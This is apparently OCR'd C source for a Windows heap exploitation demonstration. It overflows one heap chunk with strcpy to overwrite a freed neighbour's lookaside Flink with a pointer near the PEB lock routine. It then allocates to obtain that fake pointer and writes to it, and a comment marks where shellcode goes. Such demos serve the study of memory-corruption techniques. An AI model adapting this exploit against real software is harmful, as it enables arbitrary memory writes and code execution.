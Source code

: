 ```

        printf("----------------------------\n");
        printf("Overwrite a chunk on the lookaside\n");
        printf("Heap demonstration\n");
        printf("----------------------------\n");

        // create the heap
        hHeap = HeapCreate(0x00040000,0,0);
        printf("\n(+) Creating a heap at: 0x00%xh\n",hHeap);
        printf("(+) Allocating chunk A\n");

        // allocate the first chunk of size N (<0x3F8 bytes)
        a = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
        printf("(+) Allocating chunk B\n");

        // allocate the second chunk of size N (<0x3F8 bytes)
        b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

        printf("(+) Chunk A=0x00%x\n(+) Chunk B=0x00%x\n",a,b);
        printf("(+) Freeing chunk B to the lookaside\n");

        // Freeing of chunk B: the chunk gets referenced to the lookaside list
        HeapFree(hHeap,0,b);

        // set software bp
        //__asm__("int $0x3");

        printf("(+) Now overflow chunk A:\n");

        // The overflow occurs in chunk A: we can manipulate chunk B's Flink
        // PEB lock routine for testing purposes
        // 16 bytes for size, 8 bytes for header and 4 bytes for the flink

        strcpy(a,"XXXXXXXXXXXXXXXXAAAABBBB\x20\xf0\xfd\x7f");
        // strcpy(a,"XXXXXXXXXXXXXXXXAAAABBBBDDDD");

        //gets(a);

        // set software bp
        //__asm__("int $0x3");

        printf("(+) Allocating chunk B\n");

        // A chunk of block size N is allocated (C). Our fake pointer is returned
        // from the lookaside list.
        b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
        printf("(+) Allocating chunk C\n");

        // set software bp
        //    __asm__("int $0x3");

        // A second chunk of size N is allocated: our fake pointer is returned
        c = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

        printf("(+) Chunk A=0x00%x\n(+)Chunk B=0x00%x\n(+) Chunk C=0x00%x\n",a,b,c);

        // A copy operation from a controlled input to this buffer occurs: these
        // bytes are written to our chosen location
        // insert shellcode here

        printf("%x",print);
        memcpy(c,"\x00\x10\x40\x00",4);
        // set software bp
```